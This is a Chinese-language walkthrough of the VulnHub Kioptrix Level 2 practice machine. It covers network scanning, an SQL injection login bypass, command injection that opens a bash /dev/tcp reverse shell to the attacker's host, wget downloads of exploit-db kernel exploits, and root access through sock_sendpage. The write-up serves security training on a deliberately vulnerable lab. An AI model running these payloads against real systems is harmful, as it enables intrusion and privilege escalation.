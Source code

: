 ```yaml
---
title: vulnhub kioptrix level 2
---
```


打开虚拟机，和攻击机在同一个网段

### 信息收集
#### IP发现
`arp-scan 192.168.159.0/24`和`nmap -sn 192.168.159.0/24`扫描，得到192.168.159.130的目标IP

#### 服务探测
`nmap -sT -sV -Pn -p 1-65535 192.168.159.130`

得到

```
host             port  proto  name       state  info
----             ----  -----  ----       -----  ----
192.168.159.130  22    tcp    ssh        open   OpenSSH 3.9p1 protocol 1.99
192.168.159.130  80    tcp    http       open   Apache httpd 2.0.52 (CentOS)
192.168.159.130  111   tcp    rpcbind    open   2 RPC #100000
192.168.159.130  443   tcp    ssl/https  open   
192.168.159.130  631   tcp    ipp        open   CUPS 1.1
192.168.159.130  950   tcp    status     open   1 RPC #100024
192.168.159.130  3306  tcp    mysql      open   Error: \x04Host '192.168.159.128' is not allowed to connect to this MySQL server
```

#### MySQL version发现
不能连接，无法通过nmap发现端口，暂不用sqlmap判断

#### web发现
直接访问发现有表单，web可以测试

### 漏洞分析
```
searchsploit openssh 3.9
searchsploit httpd 2.0
searchsploit rpc
searchsploit cups 1.1
searchsploit mysql
hydra -l name -p pass 192.168.159.130 mysql
```

排除没有PoC的不容易利用的漏洞后，有一些可能可以利用的点

apache httpd目录遍历和XSS和其他Web漏洞

看来要用Web作为切入点

### 漏洞利用
直接进入，发现可以sql注入，使用`aaa' OR 1=1 -- `登录，发现ping功能的接口，白送一个命令注入，输入命令会弹出新页面太麻烦，使用反弹shell:`127.0.0.1; bash -i >& /dev/tcp/192.168.159.128/445 0>&1`，之前kali机器上打开nc监听`nc -lvnp 445`，获得目标服务器shell

```
$ whoami
apache
$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
$ cat /etc/*-release
CentOS release 4.5 (Final)
$ mysql -V
mysql  Ver 14.7 Distrib 4.1.22, for redhat-linux-gnu (i686) using readline 4.3
```

### 后渗透攻击
已知机器版本有CentOS4.5，Linux2.6.9，MySQL版本为4.1.22

```
searchsploit linux centos 4.5
searchsploit mysql 4.1
```

发现一些

```
Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC) - 'sock_sendpa | exploits/linux/local/9545.c
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) - 'sock_sendpage()' Ring0 | exploits/linux/local/9479.c
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)                                      | exploits/linux/local/1518.c
```

将这些文件拷贝到目标机器上，攻击机器上执行一下操作
```
$ cp /usr/share/exploitdb/exploits/linux/local/9545.c .
$ cp /usr/share/exploitdb/exploits/linux/local/9479.c .
$ cp /usr/share/exploitdb/exploits/linux/local/1518.c .
$ python3 -m http.server 9999
```

用拿到到shell执行以下操作
```
$ cd /tmp  # 原有路径下没有写权限
$ wget http://192.168.159.128:9999/9545.c
$ wget http://192.168.159.128:9999/9479.c
$ wget http://192.168.159.128:9999/1518.c
$ gcc -o aaa 9545.c
9545.c:376:28: warning: no newline at end of file
$ gcc -o bbb 9479.c
9479.c:130:28: warning: no newline at end of file
$ gcc -o ccc 1518.c
1518.c:93:28: warning: no newline at end of file
/usr/lib/gcc/i386-redhat-linux/3.4.6/../../../crt1.o(.text+0x18): In function `_start':
: undefined reference to `main'
collect2: ld returned 1 exit status
$ ./aaa
sh: no job control in this shell
sh-3.00# whoami
root
```

使用9545.c提权成功，其他都失败


### 其他
使用sqlmap注入可以，但读写文件失败，可能sql执行一些权限的内容不熟
